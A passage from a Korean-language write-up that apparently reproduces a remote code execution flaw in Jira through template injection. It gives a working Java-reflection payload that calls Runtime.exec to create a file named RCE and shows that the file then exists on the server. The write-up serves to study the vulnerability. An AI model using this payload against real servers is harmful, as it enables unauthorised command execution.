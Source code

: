 ![](images/12.png)
 - smtpd의 로그를 확인해보면 성공적으로 메일이 전송됨



## 추가1 touch

직관적으로 와닿지 않으니 조금 더 해보자
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('touch RCE').toString()
```
![](images/13.png)
 - jira 서버에서 ls를 쳐보면 RCE라는 파일이 없음

![](images/14.png)
 - 'tocuh RCE'를 넣고 send
